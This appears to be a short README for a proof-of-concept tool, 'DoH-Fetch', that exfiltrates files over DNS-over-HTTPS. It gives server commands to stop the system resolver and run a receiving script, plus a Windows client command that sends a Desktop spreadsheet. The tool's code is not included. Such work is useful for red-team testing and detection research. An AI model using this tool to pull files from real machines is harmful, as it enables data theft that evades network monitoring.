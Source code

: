 # DoH-Fetch
Simple proof of concept project to exfiltrate files via DoH

# Usage
```bash
# server
sudo systemctl stop systemd-resolved.service
sudo python3 dnspad.py
# files are stored in directory: files/<date>_combined.bin
```
```powershell
# client
.\fetch.exe -f '.\Desktop\test.xlsx'
```

